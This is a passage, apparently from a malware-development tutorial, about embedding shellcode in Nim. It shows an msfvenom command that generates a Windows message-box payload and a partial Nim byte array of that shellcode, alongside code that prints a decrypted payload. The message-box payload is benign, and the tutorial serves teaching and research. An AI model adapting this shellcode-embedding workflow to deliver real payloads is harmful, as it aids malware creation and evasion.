 ```nim
    decrhex.add("0x" & $toHex(b, 2))
  echo "original payload:\n", decrhex.join(", ")
```

How we can generate payload for nim language?     

For this we can use `msfvenom`:    

```bash
msfvenom -p windows/x64/messagebox TEXT='meow-meow!' TITLE='cat' -f csharp
```

![cryptography](/assets/images/122/2024-06-01_12-02.png)    

In our case little bit modify this brackets and variable:   

```nim
let plaintext: seq[byte] = @[
byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,
0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
```
